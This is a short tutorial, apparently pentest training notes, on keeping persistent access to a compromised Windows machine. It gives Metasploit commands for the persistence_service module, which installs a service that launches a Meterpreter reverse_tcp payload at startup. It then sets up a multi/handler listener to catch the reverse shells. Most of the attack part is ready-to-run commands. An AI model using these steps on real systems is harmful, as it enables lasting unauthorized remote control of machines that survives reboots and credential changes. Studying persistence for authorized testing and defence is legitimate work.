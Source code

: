 # Establishing Persistence on a Windows Target

Persistence means techniques that allows the attacker to stay within the system even when the system is restarted or Shut down, credentials are changed etc..

#### PERSISTENCE VIA SERVICES:

**How this Module Works?**
This module will generate a payload with MSF Venom and that payload will be then uploaded to the target. The Post Exploitation module will then create a new service which will start the payload when it runs.

1. Gain an initial Meterpreter shell session and Require Admin Privileges.
2. Background the current session and load the following module
3. Set the options and run the exploit

```
use exploit/windows/local/persistence_service
set SESSION 2
set LPORT 4433
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

4. This exploit will create a persistence service that runs on the Target system.
5. This means even if the system is shutdown or credentials are changed, the service we created still exist on the system and sends reverse shell connections back to our local machine.
6. These connections can be captured by setting up a listener.

```
use multi/handler
set LHOST eth1
set LPORT 4433
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```